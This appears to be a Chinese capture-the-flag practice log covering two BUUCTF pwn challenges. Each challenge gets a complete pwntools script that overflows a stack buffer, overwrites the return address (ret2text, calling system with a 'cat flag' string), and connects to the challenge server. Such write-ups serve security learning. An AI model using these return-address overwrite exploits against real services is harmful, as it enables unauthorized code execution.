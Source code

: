 # buu刷题记录（41-60题）

## 41 picoctf_2018_buffer overflow 1

***ret2text***

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',29931)
def dbg():
    gdb.attach(p)
    pause()

payload = b'b'*0x28+b'b'*0x4+p32(0x80485CB)
p.sendline(payload)
p.interactive()
```

## 42 jarvisoj_test_your_memory

***ret2text**

别看题上那些有的没的，有个溢出点，有个`system`,还有`cat flag`字符串，直接构造rop

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',27254)
def dbg():
    gdb.attach(p)
    pause()

sys = 0x80485C9
flag_addr = 0x80487E0
payload = b'b'*0x13+b'b'*0x4+p32(sys)+p32(flag_addr)
p.sendline(payload)
p.interactive()
```

